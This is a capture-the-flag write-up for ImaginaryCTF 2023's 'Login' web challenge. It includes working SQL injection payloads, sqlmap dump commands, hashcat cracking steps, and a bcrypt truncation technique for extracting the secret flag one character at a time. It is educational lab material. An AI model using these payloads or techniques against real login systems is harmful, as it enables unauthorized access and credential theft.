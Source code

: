 ```yaml
---
name: Login (2023)
event: Imaginary 2023
category: Web
description: Writeup for Login (Web) - Imaginary (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Login

## Description

> A classic PHP login page, nothing special.

## Recon

Try to login with `admin:admin` and get `Invalid username or password`.

View page source and find a comment.

```html
<!-- /?source -->
```

Aight so let's check http://login.chal.imaginaryctf.org/?source

```php
$flag = $_ENV['FLAG'] ?? 'jctf{test_flag}';
$magic = $_ENV['MAGIC'] ?? 'aabbccdd11223344';
$db = new SQLite3('/db.sqlite3');

$username = $_POST['username'] ?? '';
$password = $_POST['password'] ?? '';
$msg = '';

if (isset($_GET[$magic])) {
    $password .= $flag;
}

if ($username && $password) {
    $res = $db->querySingle("SELECT username, pwhash FROM users WHERE username = '$username'", true);
    if (!$res) {
        $msg = "Invalid username or password";
    } else if (password_verify($password, $res['pwhash'])) {
        $u = htmlentities($res['username']);
        $msg = "Welcome $u! But there is no flag here :P";
        if ($res['username'] === 'admin') {
            $msg .= "<!-- magic: $magic -->";
        }
    } else {
        $msg = "Invalid username or password";
    }
}
```

So the `$flag` will be appended to the `$password` if we provide the correct `$magic` value as a GET parameter, e.g. http://login.chal.imaginaryctf.org/?aabbccdd11223344

As the `$msg` indicates, logging in as the admin will not provide the flag. It will give us the `$magic` value we need but we'll still need a way to recover the flag.

## Solution

I go straight for `sqlmap`, feeding the POST login request as a file.

```bash
sqlmap -r new.req --batch
```

We quickly find our vuln.

```bash
Parameter: username (POST)
    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: username=admin' AND 7431=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2))))-- bqUp&password=admin
```

Let's exploit it to get the admin's password, then we can login and get the magic value! Start off finding the tables.

```bash
sqlmap -r new.req --batch --tables
+-------+
| users |
+-------+
```

Now we can use `--columns` to narrow it down further.

```bash
sqlmap -r new.req --batch -T users --columns
```

However, I decided to guess instead.

```bash
sqlmap -r new.req --batch -T users -C password --dump
+----------+
| password |
+----------+
| <blank>  |
| <blank>  |
+----------+
```

Guess we need `pwhash` instead, then we can crack it.

```bash
sqlmap -r new.req --batch -T users -C pwhash --dump
+--------------------------------------------------------------+
| pwhash                                                       |
+--------------------------------------------------------------+
| $2y$10$vw1OC907/WpJagql/LmHV.7zs8I3RE9N0BC4/Tx9I90epSI2wr3S. |
| $2y$10$Is00vB1hRNHYBl9BzJwDouQFCU85YyRjJ81q0CX1a3sYtvsZvJudC |
+--------------------------------------------------------------+
```

Let's confirm the hash type.

```bash
hashid '$2y$10$vw1OC907/WpJagql/LmHV.7zs8I3RE9N0BC4/Tx9I90epSI2wr3S.'
[+] Blowfish(OpenBSD)
[+] Woltlab Burning Board 4.x
[+] bcrypt
```

We check the mode in hashcat and put the hashes into a file called "hash".

```bash
hashcat -h | grep -i blowfish
3200 | bcrypt $2*$, Blowfish (Unix
```

Time to crack (I have the rockyou.txt wordlist in an environment variable)!

```bash
hashcat -m 3200 hash $rockyou
```

It said it would take 2 days in my VM so I switched to windows (GPU), reduced time to ~10 hours.

```bash
hashcat.exe -m 3200 hashes/hashes.txt wordlists/rockyou.txt
```

Not likely to be intended lol. I guess we could half the time by only trying to crack the admin password. I ran SQLMap again and dumped the users; `guest` and `admin`.

Note, we can login as `guest:guest` but just get `Welcome guest! But there is no flag here :P`.

Maybe [Password_verify() always return true with some hash](https://bugs.php.net/bug.php?id=81744)

Nope, didn't work for me. Maybe [SQL Injection with password_verify()](https://stackoverflow.com/a/50788204)

It looks good! According to [this answer](https://stackoverflow.com/a/50788242) we can select a username, along with a "fake" password hash of our choice.

```sql
 SELECT * FROM table
 WHERE Username = 'xxx'
 UNION SELECT 'root' AS username, '$6$ErsDojKr$7wXeObXJSXeSRzCWFi0ANfqTPndUGlEp0y1NkhzVl5lWaLibhkEucBklU6j43/JeUPEtLlpRFsFcSOqtEfqRe0' AS Password'
```

Took some trial and error but eventually:

```sql
guest' UNION SELECT 'admin', '$2y$10$vw1OC907/WpJagql/LmHV.7zs8I3RE9N0BC4/Tx9I90epSI2wr3S.' AS pwhash --
```

So the full SQL statement on the backend will look like.

```sql
$res = $db->querySingle("SELECT username, pwhash FROM users WHERE username = 'guest' UNION SELECT 'admin', '$2y$10$vw1OC907/WpJagql/LmHV.7zs8I3RE9N0BC4/Tx9I90epSI2wr3S.' AS pwhash --'", true);
```

Essentially, it's grabbing the `admin` user along with the `guest` password hash (which we know translates to `guest`). We login (username set to our SQLi payload and the password is `guest`). Our `magic` value is in the source!

```html
Welcome admin! But there is no flag here :P<!-- magic: 688a35c685a7a654abc80f8e123ad9f0 -->
```

Now we know that visiting http://login.chal.imaginaryctf.org/?688a35c685a7a654abc80f8e123ad9f0 will trigger the following code, appending the flag to the password.

```php
if (isset($_GET[$magic])) {
    $password .= $flag;
}
```

Note: I didn't finish this challenge but let me finish the writeup for the sake of completion.

There's a recently closed [github issue](https://github.com/php/doc-en/issues/1328): `password_hash documentation: Caution about bcrypt max password length of 72 should mention bytes instead of characters`

> Caution Using the PASSWORD_BCRYPT as the algorithm, will result in the password parameter being truncated to a maximum length of 72 characters.

So, we can combine our first exploit (selecting any known password hash with SQLi) with the truncation vulnerability.

We submit the bcrypt hash of `(71 * A) + flag_char` as the password, where `flag_char` is looping through all printable ASCII chars.

If the login is successful, we've cracked that character of the flag and we can now do `(70 * A) + flag_char`, until we have the full flag.

Doing so would recover our flag.

Flag: `ictf{why_are_bcrypt_truncating_my_passwords?!}`

Apparently, this was covered in a [recent video](https://www.youtube.com/watch?v=E5TOeiCnGkE&t=3183s) from IppSec. There's a [solve script](https://github.com/f0rk3b0mb/ImaginaryCTF_login/blob/main/expoloit.py) included with f0rk3b0mb's [writeup](https://f0rk3b0mb.github.io/p/imaginaryctf2023) 💜
